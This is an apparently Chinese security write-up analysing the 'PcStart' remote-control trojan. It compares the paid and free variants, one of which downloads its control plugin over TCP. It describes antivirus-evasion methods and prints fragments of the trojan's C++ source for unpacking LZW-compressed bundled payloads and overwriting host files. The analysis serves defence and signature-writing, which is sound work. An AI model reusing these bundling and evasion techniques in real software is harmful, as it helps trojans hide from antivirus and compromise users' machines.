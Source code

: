1、使用的DLL不一样，会员版是完整版的DLL、普通版本是精简版的DLL。

2、主函数名的区别，会员版本是Vip20101125，免费版本是ServiceMain。

3、会员版本直接带完整控制插件DLL，免费版会先建立TCP连接传输控制插件（就是小马带大马减小体积），这个后续在提到。

![enter image description here](http://drops.javaweb.org/uploads/images/1c95cc1c972351b07175984d3b49ac43aab58ea6.jpg)

PcStart还有三处值得注意的亮点：

1 DLL和SYS文件数据加密存储，捆绑合并文件使用LZW编码压缩。避免被杀毒软件轻易的识别出捆绑（内置）PE文件，对躲避查杀有一定效果。但是有些强悍的杀毒还是能通过虚拟机脱壳或算法识别解码后将其藏匿的文件进行查杀。攻防最头痛莫过于对手太强大，所以现在手段不高明基本没有生存空间了。

```
FCLzw lzw;  
//附加信息数据
BYTE* pZipInfoData = ((BYTE*) pSaveInfo) + sizeof(MYSAVEFILEINFO);
DWORD nSrcInfoDataLen = 0;
BYTE* pSrcInfoData = NULL;
lzw.PcUnZip(pZipInfoData, &pSrcInfoData, &nSrcInfoDataLen);
CopyMemory(pInfo, pSrcInfoData, nSrcInfoDataLen);
delete [] pSrcInfoData;

if(IsFileComb)
{
    DWORD nSrcComDataLen = 0;
    BYTE* pZipComData = pZipInfoData + pSaveInfo->m_Size + pInfo->m_DllFileLen + pInfo->m_SysFileLen;
    BYTE* pComFileData = NULL;
    lzw.PcUnZip(pZipComData, &pComFileData, &nSrcComDataLen);
    delete [] pFileData;

    //修改原始文件
    while(1)
    {
        if(WriteMyFile(pCmdLines, pComFileData, nSrcComDataLen))
        {
            break;
        }
        Sleep(50);
    }

```

2 修改利用PE文件标志来识别文件类型，分析过程中我发现一处不错的思路。修改PE文件的标识“This program cannot be run in DOS mode.”中的“This”位置来标注这是一个什么类型文件，方便后期文件处理和执行。这是固定码可以将此处加入查杀特征库就可以识别了，快速扫描有点用，准确识别还是另外在找一处吧。

定义：

```
#define PS_START_WIN7       11001       //win7启动
#define PS_START_UPDATE     11002       //更新客户端
#define PS_START_FILECOMB   11003       //文件捆绑
#define PS_START_FILECOPY   11004       //文件捆绑拷贝

BYTE* GetCmdType()
{
    char m_FileName[256] = {0};
    GetModuleFileName(NULL, m_FileName, 255);
    HANDLE hFile = CreateFile(m_FileName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if(hFile == INVALID_HANDLE_VALUE)
    {
        return NULL;
    }
    DWORD nReadLen = 0;
    DWORD nFileLen = GetFileSize(hFile, NULL);
    CloseHandle(hFile);
```